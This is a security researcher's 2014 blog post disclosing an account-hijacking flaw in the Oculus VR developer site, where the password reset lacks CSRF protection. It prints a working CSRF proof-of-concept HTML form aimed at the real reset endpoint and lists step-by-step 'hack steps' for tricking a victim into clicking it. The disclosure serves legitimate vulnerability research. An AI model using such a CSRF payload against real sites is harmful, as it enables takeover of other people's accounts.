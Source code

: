 ```yaml
---
title: OCULUS VR account hijacking via password reset vulnerability
date: 2014-08-15 00:00:00 +02:00
categories:
- Logic Flaw
- Hijacking
layout: post
excerpt: "Oculus VR is a virtual reality technology company founded by Brendan Iribe
  and Palmer Luckey. Their first product, still in development, is the Oculus Rift,
  a head-mounted display for immersive virtual reality(VR). In March 2014,Facebook
  agreed to acquire Oculus VR for US$2 billion in cash and Facebook stock.\nWhile
  testing the forgot password functionality of oculusVR .I have found that it's possible
  to abuse this functionality. Here is a algorithm how the reset password functionality
  of oculus VR works. "
comments: true
---
```


Oculus VR is a virtual reality technology company founded by Brendan Iribe and Palmer Luckey. Their first product, still in development, is the Oculus Rift, a head-mounted display for immersive virtual reality(VR). In March 2014,Facebook agreed to acquire Oculus VR for US$2 billion in cash and Facebook stock.

While testing the forgot password functionality of oculusVR. I have found that it's possible to abuse this functionality.
Here is a algorithm how the reset password functionality of oculus VR works.

{% highlight text %}
if (user is log in){
//the app will not use auth parameter which is a reset password passcode. Then change the password of the user who is currently log in.

}
else{
//if the user is not log in ,oculus uses the auth parameter to identify which account to be reset.

}
{% endhighlight %}

![passw](https://4.bp.blogspot.com/-tAuAQSsCwO4/U_LD_b0AOnI/AAAAAAAAAQs/hotORflSwzY/s1600/check1.png)
*Although I am log in, password reset page still can be viewed.*


The main problem here is oculusVR does not have an ANTI-CSRF token on reset password functionality. :) the only need to hijack an oculusVR account is an attacker reset password link token. Combining the CSRF vulnerability and weird behavior of password reset page will be resulted in **Account Hijacking vulnerability**.

###  Sample CSRF PoC

{% highlight text %}
<body>
<form action="https://developer.oculusvr.com/core/UserAction.php" method="POST">
<input type="hidden" name="action" value="changepassword" />
<input type="hidden" name="auth" value="your_reset_token" />
<input type="hidden" name="newpassword" value="attackerpassword" />
<input type="hidden" name="confirmpassword" value="attackerpassword" />
<input type="submit" value="Submit request" />
</form>
</body>
{% endhighlight %}
To get the value of auth parameter you must request a reset password link on this link https://developer.oculusvr.com/lostpassword.

### HACK STEPS
* Attacker requests a reset password link
* Makes a CSRF PoC attack with reset token
* Sends the CSRF PoC link to his victim
* If the victim clicks that link his password will be changed!
